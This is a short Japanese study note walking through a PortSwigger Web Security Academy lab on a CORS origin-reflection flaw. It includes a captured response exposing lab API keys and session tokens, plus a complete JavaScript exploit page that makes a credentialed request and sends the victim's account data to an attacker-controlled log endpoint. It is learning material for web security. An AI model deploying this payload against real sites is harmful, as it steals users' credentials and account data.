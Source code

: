 Date: 2025-09-17
Tags: 
Links: [[WSA]], [[CORS]]

***

1. `Access-Control-Allow-Credentials: true`でCORSをサポートしていることがわかる。
```http
HTTP/2 200 OK
Access-Control-Allow-Credentials: true 
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 189

{
  "username": "wiener",
  "email": "",
  "apikey": "MNIceXJrfKJAq27uKZtcHnT1bd5U491T",
  "sessions": [
    "rvMHs40j9E8GYbbCCuDFqk5JlOGZIueS",
    "IW37eh1uV8CRAfG8fsS7Oo5VVT2HRJJ9"
  ]
}
```


2. `Origin: https://example.com`を追加して送信してみる。
	`Access-Control-Allow-Origin: https://e.com` が追加される。
	オリジンをなんでも受け入れていることがわかる。

3. 被害者に罠サイトを送る。
```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener;
	req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	  
	 function reqListener() { 
		 location='/log?key='+this.responseText;
	 }; 
 </script>
```

4. 被害者に送ると、被害者がログインしていたとき`罠サイト/log?key=`にリダイレクトされ、ログに残る。

***
# References

https://portswigger.net/web-security/learning-paths/cors/cors-vulnerabilities-arising-from-cors-configuration-issues/cors/lab-basic-origin-reflection-attack#